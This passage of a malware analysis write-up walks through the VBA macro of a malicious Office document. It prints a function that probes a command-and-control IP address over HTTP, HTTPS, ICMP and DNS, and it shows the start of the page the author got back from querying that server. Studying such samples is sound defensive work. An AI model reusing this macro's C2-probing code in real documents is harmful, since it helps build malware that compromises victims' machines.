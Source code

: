     Private Function GetStatusCode(status As Long) As String



#### Main

The `Auto_Open` function called in the loading VBA simply calls `Main`.

`Main` starts with a check, `If Sandbox Then Exit Function`. Then
there's a switch statement on `GetMethodType("54.152.19.47")`

This function tests the c2 to see what it's listening on:



    Function GetMethodType(myWebsite)

        Dim objHTTP, gggggggg
        gggggggg = "WinHttp.WinHttpRequest.5.1"
        Set objHTTP = CreateObject(gggggggg)
        If TestHTTP(objHTTP, myWebsite) Then
            GetMethodType = 0
            Exit Function
        Else
            If TestHTTPS(myWebsite) Then
            GetMethodType = 1
            Exit Function
            End If
        End If

        If TestICMP(myWebsite) Then
            GetMethodType = 2
            Exit Function
        End If

         If TestDNS() Then
            GetMethodType = 3
            Exit Function
        End If


        GetMethodType = 999
    End Function



I simulated the `TestHTTP` function with a curl, and got back a result:



    <!DOCTYPE.md>
    .md>
    <head>
    <style>
    ul {
        list-style-type: none;
        margin: 0;
        padding: 0;
        overflow: hidden;
        background-color: #333;
    }
